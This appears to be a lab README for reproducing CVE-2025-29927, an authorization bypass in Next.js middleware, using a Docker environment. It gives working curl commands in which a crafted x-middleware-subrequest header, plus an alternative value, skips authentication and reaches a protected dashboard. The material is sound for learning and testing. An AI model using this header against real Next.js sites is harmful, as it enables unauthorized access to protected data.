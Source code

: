 # Next.js Middleware Authorization Bypass (CVE-2025-29927)

[中文版本(Chinese version)](README.zh-cn.md)

Next.js is a popular React-based web application framework providing features such as server-side rendering, static site generation, and an integrated routing system. When configured to use middleware for authentication and authorization purposes, versions prior to 14.2.25 and 15.2.3 are vulnerable to an authorization bypass.

The vulnerability allows attackers to bypass middleware-based security controls by manipulating the `x-middleware-subrequest` header, potentially gaining unauthorized access to protected resources and sensitive data.

References:

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

## Environment Setup

Execute the following command to start a vulnerable application based on Next.js 15.2.2:

```
docker compose up -d
```

After the application starts, visit `http://your-ip:3000` you will be redirected to the login page. Input the default credentials `admin:password` to login and access the dashboard.

## Vulnerability Reproduction

If you try to access the dashboard directly without legal credentials, you will be redirected to the login page:

```
curl -i http://your-ip:3000
```

![](1.png)

To exploit the vulnerability, you can add the `x-middleware-subrequest` header with the value `middleware:middleware:middleware:middleware:middleware` in the request. The Next.js middleware will incorrectly process this header and bypass the authentication checks:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

As you can see, the dashboard is accessible without any authentication.

> You can also try the header `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` if the previous payload doesn't work.
